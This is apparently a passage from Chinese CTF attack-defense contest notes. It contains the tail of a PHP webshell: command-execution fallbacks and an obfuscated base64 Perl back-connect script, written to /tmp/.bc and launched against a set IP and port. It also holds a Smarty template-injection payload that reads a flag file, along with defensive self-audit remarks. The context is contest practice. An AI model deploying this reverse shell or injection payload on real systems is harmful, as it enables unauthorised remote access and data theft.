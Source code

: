              } elseif(function_exists('passthru')) { 
             @ob_start(); 
             @passthru($cfe); 
             $res = @ob_get_contents(); 
             @ob_end_clean(); 
             } elseif(@is_resource($f = @popen($cfe,"r"))) { 
             $res = ''; 
             while(!@feof($f)) { 
             $res .= @fread($f,1024); 
             } 
             @pclose($f); 
             } 
             } 
             return $res; 
             } 
             function cf($fname,$text){ 
             if($fp=@fopen($fname,'w')) { 
             @fputs($fp,@base64_decode($text)); 
             @fclose($fp); 
             } 
             } 
             $yourip = "192.168.71.1"; 
             $yourport = '9999'; 
             $usedb = array('perl'=>'perl','c'=>'c'); 
             $back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj". 
             "aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR". 
             "hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT". 
             "sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI". 
             "kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi". 
             "KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl". 
             "OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw=="; 
             cf('/tmp/.bc',$back_connect); 
             $res = execute(which('perl')." /tmp/.bc $yourip $yourport &"); 
             ?> 
             ```

   12. 自我审计

       1. 比赛开始后，先去服务器上将自己的代码备份一下，并开始Review自己Web。上午的时间就是一边使用脚本抓取flag，一边查看其它队伍怎么修补的漏洞，试着改进抓取脚本。有的队伍返回了一个假的flag，被检查程序check down了；有的队伍发现新注册用户就立即删除，于是我们改进每次都新建用户直接登陆抓取；还有些队伍修补了漏洞，这样子就没办法了。
       2. 比赛总体下来，我们的Pwn次次被打，而且还down过几次，打了也没办法，down只好乖乖把备份传上去整好。真是别人去你家偷东西你还不能还手，门搞坏了也要默默弄好让别人下次接着偷👿。下午还发现了一个内存马，杀掉除root以外的apache进程就可以了，sudo -u www-data kill -9 <进程号>，不过杀了一次后他们没有攻第二次，看来他们的洞利用起来有些麻烦，估计是手动的。
       3. 现场挖洞思路 http://sumygg.com/2017/05/20/tsctf-2017-offline-final-contest/ 
          `{php}echo file_get_contents('/var/www/flag'); {/php}`
       4. 发现一个后台未校验权限的漏洞，导致任何登陆用户都可以进入后台。
